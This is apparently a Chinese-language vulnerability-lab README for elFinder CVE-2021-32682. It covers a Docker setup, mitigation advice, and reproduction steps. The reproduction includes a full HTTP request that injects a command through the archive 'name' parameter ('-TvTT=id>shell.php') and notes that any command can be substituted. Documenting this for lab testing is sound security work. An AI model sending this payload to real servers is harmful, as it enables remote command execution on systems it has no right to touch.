

# elFinder ZIP 参数与任意命令注入（CVE-2021-32682）

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。当然，升级版本到2.1.49及以上也是必要的。

参考链接：

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## 漏洞环境

执行如下命令启动一个elFinder 2.1.48版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到elFinder的文件管理页面。

## 漏洞复现

复现这个漏洞首先需要用elFinder提供的功能，创建两个文件。

先创建一个普通的文本文件`1.txt`：


然后右键这个文件，对其进行打包，打包后的文件命名为`2.zip`：



最后我们获得`1.txt`和`2.zip`两个文件：


然后，发送如下数据包来执行任意命令：

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

这个数据包中，你可以看到三个重要的参数：

- `name`， 值为`-TvTT=id>shell.php # a.zip`，你可以修改`id>shell.php`为任意你想执行的命令
- `targets[0]`， 值为`l1_MS50eHQ`，`l1`意思是第一个文件系统（默认值，不用修改），`MS50eHQ`是`1.txt`的base64编码
- `targets[1]`， 值为`l1_Mi56aXA`，`l1`意思是第一个文件系统（默认值，不用修改），`Mi56aXA`是`2.zip`的base64编码

虽然这个数据包发送后会返回错误信息，但实际上其中指定的命令已经被成功执行，可以访问`http://your-ip:8080/files/shell.php`查看执行的结果：


